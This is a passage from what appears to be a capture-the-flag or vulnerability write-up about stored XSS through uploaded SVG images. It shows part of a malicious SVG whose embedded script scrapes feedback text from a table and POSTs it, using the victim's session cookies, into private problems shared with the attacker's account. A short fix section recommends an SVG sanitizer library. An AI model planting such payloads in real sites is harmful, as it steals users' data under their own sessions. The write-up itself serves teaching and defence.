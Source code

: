 ```

                for (const row of rows) {{
                const cell = row.querySelector('td:nth-child(3)');
                const feedbackText = cell ? cell.textContent.trim() : '';
                
                if (!feedbackText || feedbackText === 'SCRIPTED_FLAG_CAPTURED') {{
                    continue;
                }}
                
                const flag = feedbackText;

                const params = new URLSearchParams({{
                    title:           flag,
                    description:     `Captured feedback: ${{flag}}`,
                    difficulty:      'Easy',
                    testCases:       JSON.stringify(['dummy input']),
                    expectedOutputs: JSON.stringify(['dummy output']),
                    maxRuntime:      '1.0',
                    isPublished:     'false',
                    isPrivate:       'true',
                    accessUsers:     '{my_username}'
                }});

                const res = await fetch('/problems/create', {{
                    method:      'POST',
                    credentials: 'include',
                    headers:     {{ 'Content-Type': 'application/x-www-form-urlencoded' }},
                    body:        params.toString()
                }});
                }}
            }} catch (e) {{
            }}
          }})();
        </script>
        <rect width="100" height="100" fill="blue" />
    </svg>
```

#### Fix
The submitted images must properly be cleaned up. This also can be done with additional packages:

```
use enshrined\svgSanitize\Sanitizer;
...

  $sanitizer = new Sanitizer();
  $cleanSVG = $sanitizer->sanitize($imageContent);
```

## File Structure
